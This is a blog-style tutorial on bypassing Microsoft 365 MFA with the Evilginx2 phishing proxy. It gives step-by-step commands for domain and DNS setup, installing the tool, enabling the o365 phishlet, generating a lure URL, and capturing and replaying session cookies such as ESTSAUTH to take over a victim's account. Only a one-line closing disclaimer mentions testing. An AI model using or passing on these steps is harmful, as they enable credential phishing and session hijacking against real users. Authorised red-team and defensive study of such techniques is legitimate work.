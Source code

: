 ```yaml
---
description: >-
  In that blog I will try to explain which implementation that I have done in
  order to bypass MFA in Azure.
---
```


# Bypassing MFA with Evilginx2

### Take a domain name in Freenom.&#x20;

[freenom.com ](https://freenom.com)is giving you great opportunity to take free domain names so just a grab one there.&#x20;

After taking a domain name. You need to create EC2 instance in your AWS accoount. Of course you can use some virtual private server provider or some hosting provider but for me it was easy to configure that in AWS.&#x20;

I have configured AWS ubuntu in my account.&#x20;

And uploaded to there evilginx2 phishing tool. For evilginx2 tool worked properly you should configure DNS records there, without configuring these records it will be hard to get tokens of your victims.&#x20;

As the first step you need to install go in your instance.&#x20;

```
apt install golang-go
go get -u github.com/kgretzky/evilginx2
sudo apt-get -y install git make
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
make install
```

&#x20;Now you should not run evilginx because we didn't configure our DNS.&#x20;

Let's turn back to our freenom.com page and manage our domain.&#x20;

![](<../../.gitbook/assets/image (4).png>)



From that section go to DNS configuration place.&#x20;

![](<../../.gitbook/assets/image (5).png>)

Then Manage DNS section.&#x20;

![](<../../.gitbook/assets/image (2) (2).png>)

Put there the subdomains that you want to use. Actually, it depends on which phishlets you will use. But in my case I have used o365 phishlet so, I have added to there `account` and `login`. &#x20;

And your EC2 instance public IP that you will use.&#x20;

After adding these we need to implement our nameserver glue records.&#x20;

![](<../../.gitbook/assets/image (3).png>)

From that section you need to put your domain name records.&#x20;

![](<../../.gitbook/assets/image (1) (1).png>)



In my case, I have added my domain name record there and my public EC2 instance IP.&#x20;

yeah after that comes waiting part because changing these records to be implemented in the system takes time.&#x20;

After adding these sections go to your EC2 instance and connect via the terminal.&#x20;

Probably you will have problem with DNS, HTTPS, HTTP connections. So you need to be aware these are open to all IPs with your security groups.&#x20;

I have done some DNS implementations in my AWS EC2 instance. Maybe that will not work for you case but in case you will have a problem when you run evilginx. Like `Failed to conned port 53` . Here is the solution that worked for me.&#x20;

```
 sudo rm /etc/resolv.conf
 ln -s /run/systemd/resolve/resolv.conf /etc/resolv.conf
 
 systemctl stop systemd-resolved.service
```

in your /etc/hosts file add that section.&#x20;

```
internal-ip yourdomain.com
```

After these configurations run your evilginx with debug because I was not able to configure any phishlet to save tokens.&#x20;



run these commands for running evilginx in debug mode.&#x20;

```
evilginx -debug
```



in evilginx2 run these command,&#x20;

```
config domain yourdomain.com
config ip a.b.c.d

blacklist unauth

phishlets enable o365
lures create o365
lures edit #putIDthere redirect_url https://portal.azure.com
lures get-url #putIDthere

```

After getting the URL from evilginx open an incognito browser and test.&#x20;

In my case, evilginx was not able to save tokens of my victims(my account here). But in debug mode, I was able to see these tokens.&#x20;



For o365 phishlet, you need to sniff these tokens&#x20;

```
ESTSAUTHPERSISTENT
ESTSAUTH
ESTSAUTHLIGHT
SignInStateCookie
```

![](<../../.gitbook/assets/image (2) (1).png>)



After taking these values go to your browser and with cookie editor extension change these while trying to login [https://www.office.com/?auth=2](https://www.office.com/?auth=2) and refresh the page.&#x20;

You are in.&#x20;

```
Please use it for testing purposes. 
```



